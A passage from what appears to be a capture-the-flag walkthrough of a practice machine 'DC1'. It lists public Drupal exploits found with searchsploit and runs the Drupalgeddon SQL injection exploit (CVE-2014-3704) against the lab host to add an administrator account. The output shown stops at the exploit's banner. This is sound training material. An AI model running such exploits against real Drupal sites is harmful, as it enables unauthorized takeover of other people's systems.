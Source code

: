 ~~~
Drupal < 8.6.9 - REST Module Remote Code Execution                                 | php/webapps/46459.py
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                  | php/webapps/44501.txt
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scrip | php/webapps/25493.txt
Drupal Module CODER 2.5 - Remote Command Execution (Metasploit)                    | php/webapps/40149.rb
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                      | php/remote/40144.php
Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting            | php/webapps/35397.txt
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upload     | php/webapps/37453.php
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio Flotsam  | php/webapps/35072.txt
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                  | php/remote/40130.rb
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
~~~

Let's try "Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)" (ID 34992):

~~~
kali@kali:/data/DC1$ searchsploit -m 34992
kali@kali:/data/DC1/files$ python 34992.py -t http://dc1.box -u myadmin -p mypassword

  ______                          __     _______  _______ _____    
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |   
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |   
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |   
 |:  1    /          |__|                 |   |  |:  1   | |:  |   
 |::.. . /                                |   |  |::.. . | |::.|   
 `------'                                 `---'  `-------' `---'   
  _______       __     ___       __            __   __             
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|                               
 |::.. . |            |::.|                                        
 `-------'            `---'                                        
                                                                   
                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

			  Discovered by:

			  Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
~~~